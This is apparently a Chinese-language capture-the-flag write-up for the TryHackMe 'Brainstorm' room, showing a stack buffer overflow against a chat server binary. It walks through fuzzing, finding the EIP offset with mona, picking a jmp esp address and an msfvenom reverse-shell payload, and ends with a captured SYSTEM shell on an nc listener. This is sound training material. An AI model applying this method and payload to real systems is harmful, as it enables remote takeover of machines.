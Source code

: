 # Brainstorm

对聊天程序进行逆向工程并编写脚本以利用 Windows 计算机。

---

循例先扫，靶机禁ping，要加-Pn：

    nmap -sS 10.10.190.110 -Pn -p- -T5

端口藏的深，需要 -p-

    21/tcp   open  ftp
    3389/tcp open  ms-wbt-server
    9999/tcp open  abyss

用anonymous登录ftp,有料：

    ftp> passive

    08-29-19  09:26PM                43747 chatserver.exe
    08-29-19  09:27PM                30761 essfunc.dll

    ftp> binary

将这些文件下载。

由于我这里没有配置好的windows环境，就借用https://tryhackme.com/room/bufferoverflowprep这个房间的靶机来完成。

在win机器上运行这个exe，看命令行说是开了个服务，刚刚扫到个9999未知服务，用nmap -sV，nmap卡死了貌似。

用nc连接一下看看

提示：

    Welcome to Brainstorm chat (beta)
    Please enter your username (max 20 characters):

尝试了一下，username限死了20个字符，但是massage好像没限制，所以我们可以尝试对massage进行fuzzing

### 注意：我们需要先输入username后才能输入massage

丢到Immunity Debugger软件上，然后就可以按照我们刚刚学的缓冲区溢出技术进行操作了

    !mona config -set workingfolder c:\mona\%p

然后open这个exe文件，进行fuzzing

### 注意：fuzz脚本的ip和端口是设置到win机器上，而不是我们这个房间的靶机，因为我们希望利用Immunity Debugger

fuzzing测到：

    Fuzzing crashed at 2100 bytes

大概在2100上下

那么接下来就是找栈帧的（EIP）return address的具体位置：

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

    !mona findmsp -distance 2500

结果：

    EIP contains normal pattern : 0x31704330 (offset 2012)

我们知道的精确的位置：2012，接下来我们就只需填充2012长度的随机数据即可到return address

尝试在2012的位置后填充“BBBB”，成功覆盖EIP

### 寻找坏字符：

自己写个生成\x00-\xff的脚本

    !mona bytearray -b "\x00"

    !mona compare -f C:\mona\chatserver\bytearray.bin -a [esp address]

貌似并没有任何坏字符，除了\x00，这很棒，不用逐个逐个排查了。

### 找jmp esp地址

    !mona jmp -r esp -cpb "\x00"

随便选一个

然后猜一手小端序：

    "\xdf\x14\x50\x62 ------ 625014DF

使用该地址覆盖掉eip(return address)

### 生成shellcode

    msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c

将生成的shellcode添加到eip的后面

### NOP

为了稳定，我们可以在shellcode之前，eip之后添加一点nop

    "\x90" * 16

---

成功getshell

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">nc</font> <font color="#9755B3">-vlnp</font> 8888                                                         130 <font color="#EC0101"><b>⨯</b></font>
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.190.110.
Ncat: Connection from 10.10.190.110:49365.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32&gt;whoami
whoami
nt authority\system</pre>

### 别忘了一件事，记得把exploit脚本的ip地址改回本房间的靶机！
